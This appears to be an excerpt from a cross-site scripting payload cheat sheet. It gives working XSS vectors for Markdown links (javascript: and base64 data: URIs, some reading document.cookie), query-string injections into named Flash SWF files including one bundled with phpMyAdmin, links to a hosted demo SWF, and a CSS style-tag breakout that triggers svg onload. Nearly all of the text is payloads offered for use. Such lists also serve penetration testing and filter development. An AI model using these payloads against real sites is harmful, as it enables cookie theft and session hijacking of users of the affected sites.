XSS in Markdown

```csharp
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

XSS in SWF flash application

```powershell
Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);
IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}
IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);
```

more payloads in ./files

XSS in SWF flash application

```
flashmediaelement.swf?jsinitfunctio%gn=alert`1`
flashmediaelement.swf?jsinitfunctio%25gn=alert(1)
ZeroClipboard.swf?id=\"))} catch(e) {alert(1);}//&width=1000&height=1000
swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!alert(1);//
swfupload.swf?buttonText=test<a href="javascript:confirm(1)"><img src="https://web.archive.org/web/20130730223443im_/http://appsec.ws/ExploitDB/cMon.jpg"/></a>&.swf
plupload.flash.swf?%#target%g=alert&uid%g=XSS&
moxieplayer.swf?url=https://github.com/phwd/poc/blob/master/vid.flv?raw=true
video-js.swf?readyFunction=alert(1)
player.swf?playerready=alert(document.cookie)
player.swf?tracecall=alert(document.cookie)
banner.swf?clickTAG=javascript:alert(1);//
io.swf?yid=\"));}catch(e){alert(1);}//
video-js.swf?readyFunction=alert%28document.domain%2b'%20XSSed!'%29
bookContent.swf?currentHTMLURL=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4
flashcanvas.swf?id=test\"));}catch(e){alert(document.domain)}//
phpmyadmin/js/canvg/flashcanvas.swf?id=test\”));}catch(e){alert(document.domain)}//
```

XSS in CSS

```html
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```
